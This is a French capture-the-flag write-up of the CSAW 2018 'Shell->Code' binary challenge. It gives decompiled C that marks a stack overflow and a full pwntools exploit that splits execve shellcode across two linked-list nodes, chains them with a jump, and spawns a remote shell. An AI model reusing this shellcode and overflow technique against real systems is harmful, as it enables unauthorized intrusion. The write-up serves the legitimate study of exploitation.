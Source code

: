 ```yaml
---
author: "Laluka"
title: "CSAW - Shell->Code"
slug: "shell_code"
date: 2018-09-16
status: "original"
description: "Exploitation binaire utilisant des listes chainées pour stocker des morceaux de shellcode à différents endroits, puis les relier avec des jumps. "
---
```



### Description

> Les listes chainées sont géniales ! Elles vous permettent de chaîner des données ensemble.

> nc pwn.chal.csaw.io 9005

Vous pouvez télécharger le fichier ELF : [ici](/writeups/csaw_2018/shell_code/shellpointcode)


### TL;DR

This challenge uses linked list and leaks an address, the stack is executable,
a short shellcode and a relative jump will do the trick !

Ce challenge utilise une liste chainée, fait fuiter une adresse, et la pile est exécutable. Un petit shellcode, un saut relatif et le tour est joué !


### Methologie

Etape 1 : Utiliser IDA pour décompiler le programme, trouver les deux fonctions utiles qui remplissent la liste chainée et expose le buffer overflow.

```c
__int64 nononode()
{
  char v1; // [rsp+0h] [rbp-40h]
  __int64 v2; // [rsp+8h] [rbp-38h]
  char *v3; // [rsp+20h] [rbp-20h]
  __int64 v4; // [rsp+28h] [rbp-18h]

  v3 = &v1;
  puts("(15 bytes) Text for node 1:  ");
  readline(&v4, 15LL);                        // <- Shellcode here
  puts("(15 bytes) Text for node 2: ");
  readline(&v2, 15LL);                        // <- Shellcode here
  puts("node1: ");
  printNode(&v3);
  return goodbye();                           // <- Overflow func here
}

int goodbye()
{
  char s; // [rsp+Dh] [rbp-3h]

  puts("What are your initials?");
  fgets(&s, 32, stdin);                       // <- Overflow here
  return printf("Thanks %s\n", &s);
}
```

Etape 2 : Trouver un petit shellcode, coder l'exploit, et jump au bon endroit !

```python
#!/usr/bin/env python2

from pwn import *

shellcode = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb"
shellcode += "\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05"
# jmp short 0x13 (rip when reaching this instruction - @second)
jmp_rip_p10 = "\xEB\x11"
offset = 11

r = remote("pwn.chal.csaw.io", 9005)
#r = process("./shellpointcode")  # local debugging
r.readuntil("node 1:  \n")
r.sendline(shellcode[15 - 2:])
r.readuntil("node 2: \n")
r.sendline(shellcode[:15 - 2] + jmp_rip_p10)
r.readline()
adr = r.readline().split(": ")[1].split("\n")[0]
print "adr", adr
adr = int(adr[2:], 16)
second = adr + 0x8          # constant offset in the stack
first = second + 0x20       # reach the 2nd buffer, constant offset in the stack
print "second", hex(second)
print "first", hex(first)
r.readuntil("\n\n")
# pause()                  # time to attach gdb and continue
r.sendline("A" * offset + p64(second))
r.interactive()
```
Etape 3 : Lancer l'exploit !

<img class="img_full" src="/writeups/csaw_2018/shell_code/run.png" alt="run" >

Plutôt simple, j'ai bien aimé ce challenge car il nécessite de trouver un shellcode concis et de permuter les instructions pour le diviser en deux petites parties sans le casser.
